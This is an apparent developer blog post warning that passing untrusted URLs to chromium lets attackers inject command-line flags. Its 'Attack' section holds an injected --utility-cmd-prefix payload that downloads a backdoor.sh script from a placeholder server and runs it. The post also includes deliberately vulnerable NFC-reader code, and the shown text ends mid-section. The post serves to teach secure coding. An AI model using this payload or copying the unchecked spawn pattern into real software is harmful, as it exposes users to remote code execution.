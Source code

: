 ```yaml
---
layout: post
title:  "Do not run chrome from your app!"
published: true
author: nemanjan00
image: /assets/chrome_malware_warnings.jpg
hero_image: /assets/chrome_malware_warnings.jpg
hero_darken: true
show_sidebar: true
---
```


This is example how your user can be hacked if you misuse chromium to open web links.

## Attack

What I have seen people do is something like this:

```c
url = "someurl"; // this is just pseudo-code
execlp("chromium", "chromium", url);
```

What that does is it runs this:

```bash
chromium someurl
```

And if they get something like this as parameter:

```
url = `--utility-cmd-prefix='bash -c \" ls . ; curl http://someserver/backdoor.sh > backdoor.sh ; bash backdoor.sh ; ls . \"'`
```

What happens is user just got compromised...

```
chromium --utility-cmd-prefix='bash -c \" ls . ; curl http://someserver/backdoor.sh > backdoor.sh ; bash backdoor.sh ; ls . \"'
```

To understand how big of issue this is I suggest reading [my post about command arguments](https://nemanja.top/2022/05/01/why-argv-sucks-for-users).

## Real danger example 1 (NFC/QRcode)

Now imagine you have just implemented NFC or QRcode reader...

You did not check url format, you passed it to chromium as url...

![](/assets/rfid.png)

Example vulnerable code:

```javascript
const { spawn } = require("child_process");
const fs = require("fs");
const ndefLibrary = require('ndef-lib');

spawn("nfc-mfultralight", ["r", "dump"]).on("close", () => {
	const data = fs.readFileSync("./dump").slice(18);

	const message = new ndefLibrary.NdefMessage.fromByteArray(data);

	const url = Buffer.from(message._records[0]._payload).toString("utf8").slice(2);

	const shell = spawn("chromium", [url]);

	shell.stdout.on("data", data => {
		console.log("" + data);
	});

	shell.stderr.on("data", data => {
		console.error("" + data);
	});

	shell.on("close", (code) => {
		console.log(code);
	});
});
```

## Real danger example 2 (RSS reader/Mail client)

What happens if you want to open link you just took from XML or JSON and you trust it is valid link?

You just pass it to chromium?

